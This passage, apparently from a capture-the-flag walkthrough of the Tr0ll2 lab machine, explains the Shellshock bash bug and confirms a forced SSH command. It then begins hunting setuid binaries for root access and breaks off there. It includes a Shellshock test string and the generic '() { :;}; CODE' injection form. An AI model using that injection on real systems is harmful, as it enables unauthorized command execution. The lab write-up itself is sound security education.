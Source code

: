 Here you can see the vulnerability: the second echo statement was outside the function definition, but it was executed anyway. 

Next, the attack fools the shell into accepting a bogus function definition. You can use [this string](https://security.stackexchange.com/questions/68168/is-there-a-short-command-to-test-if-my-server-is-secure-against-the-shellshock-b) to see if your bash is vulnerable to Shellshock: <code>x='() { :;}; echo VULNERABLE' bash -c :</code>.

Now we know that what looked like gibberish before, is actually the syntax for defining functions. With a diference of a colon instead of a function statement. The <code>:</code> is a []shell built-in(https://security.stackexchange.com/questions/68168/is-there-a-short-command-to-test-if-my-server-is-secure-against-the-shellshock-b) that does nothing. So, to the vulnerable shell, the function definition doesn't perform any action, and is then followed by an arbitrary command, that is happily executed: <code>() { :;}; CODE</code>.

Ok, back to the Tr0ll! To also confirm the SSH vulnerability, look in authorized_keys:

``` 
noob@Tr0ll2:~$ cat .ssh/authorized_keys 
command="echo TRY HARDER LOL!" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwi2G/kLMyjm/rrcQymKVqy4EgUyJ+3Oyv7D5QV73IWECguqrINI+OuY+zIV49ykebBYR15HkBYi/9GYZmHRD5CHq9I+zCLHv/9Kdf9Ae+HQIaF/X/3PC0lIx6XLmgIY66MwuMNmOvK7U8rERPUJxSmLKWvaSAP9/LXVOHfcrCZyyCc+ir6kxsKHzojM0EResF2RgKfbbZ2MFqr6YSO9+ohdZBgGVncc1ngtW0b7mKf1u+RTnP7XeWxOkD2nHpghvKs8wwXNw6vE12lNjzqjPDTb4yYVph8zHKPYZst6PT6qeLArJ7lKwX540FEp2q9Ji2xUTXVLBCYXiKZ0k7Ru69 noob@Tr0ll2
```

There it is, the trolling message was the command that user noob was restricted to. Ok, let's move on and see how we can get root. I searched for some kernel exploits, but could only find some potential exploits for 64 bit systems, and this one is 32 bit. But then:

``` 
ls /
bin   dev  home        lib	   media  nothing_to_see_here  proc  run   selinux  sys  usr  vmlinuz
boot  etc  initrd.img  lost+found  mnt	  opt		       root  sbin  srv	    tmp  var
```

Didn't expect to get anything out of this, but..trolls..

``` 
noob@Tr0ll2:/$ file nothing_to_see_here/
nothing_to_see_here/: setuid directory
noob@Tr0ll2:/$ ls -l nothing_to_see_here/
total 4
drwsr-xr-x 5 root root 4096 Oct  4  2014 choose_wisely
noob@Tr0ll2:/nothing_to_see_here/choose_wisely$ ls -al *
door1:
total 16
drwsr-xr-x 2 root root 4096 Oct  4  2014 .
drwsr-xr-x 5 root root 4096 Oct  4  2014 ..
-rwsr-xr-x 1 root root 7271 Oct  4  2014 r00t

door2:
total 20
drwsr-xr-x 2 root root 4096 Oct  5  2014 .
drwsr-xr-x 5 root root 4096 Oct  4  2014 ..
-rwsr-xr-x 1 root root 8401 Oct  5  2014 r00t

door3:
total 16
drwsr-xr-x 2 root root 4096 Oct  5  2014 .
drwsr-xr-x 5 root root 4096 Oct  4  2014 ..
-rwsr-xr-x 1 root root 7273 Oct  5  2014 r00t
```
